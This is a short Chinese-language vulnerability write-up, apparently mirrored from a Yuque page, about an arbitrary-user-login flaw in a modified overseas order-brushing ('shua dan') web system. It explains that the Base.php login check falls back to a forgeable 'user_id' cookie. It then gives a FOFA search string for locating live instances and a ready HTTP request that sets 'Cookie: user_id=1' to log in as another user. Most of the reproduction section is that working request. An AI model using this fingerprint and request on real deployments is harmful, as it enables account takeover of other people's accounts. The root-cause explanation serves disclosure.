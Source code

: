 # 某二开版海外抢单Shua单系统存在任意用户登录漏洞

# 一、漏洞简介
位于 /index/controller/Base.php 控制器的 __construct 方法作为验证登录控制器，来验证用户是否登录，然而这套系统实际采用两套验证用户的方法，Session和Cookie并存，其中 if (!$uid) { $uid = cookie('user_id'); } 这句话是关键，如果Session中没有发现user_id，那么直接验证Cookie中的user_id，而Cookie是可以伪造的，这里导致漏洞产生。

# 二、影响版本
+ 海外刷单系统

# 三、资产测绘
+ fofa`"/red/popper.min.js"`
+ 特征

![1726293548455-c7775462-88de-45a6-b23f-cf853d650096.png](./img/Gmllb7LmtIMFJzui/1726293548455-c7775462-88de-45a6-b23f-cf853d650096-992981.png)

# 四、漏洞复现
```plain
GET /index/index HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Connection: keep-alive
Content-Length: 73
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: user_id=1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
User-Token-Csrf: csrf66e28d7ebbffaX-Requested-With: 
```

![1726293582647-1b8a5655-677c-407b-8588-75ea40955731.png](./img/Gmllb7LmtIMFJzui/1726293582647-1b8a5655-677c-407b-8588-75ea40955731-643567.png)

![1726293502362-d4828d91-dc9a-4000-94a6-0945d14bf7d3.png](./img/Gmllb7LmtIMFJzui/1726293502362-d4828d91-dc9a-4000-94a6-0945d14bf7d3-623870.png)



> 更新: 2024-10-22 09:36:10  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ixpcs4iq19u5yrp4>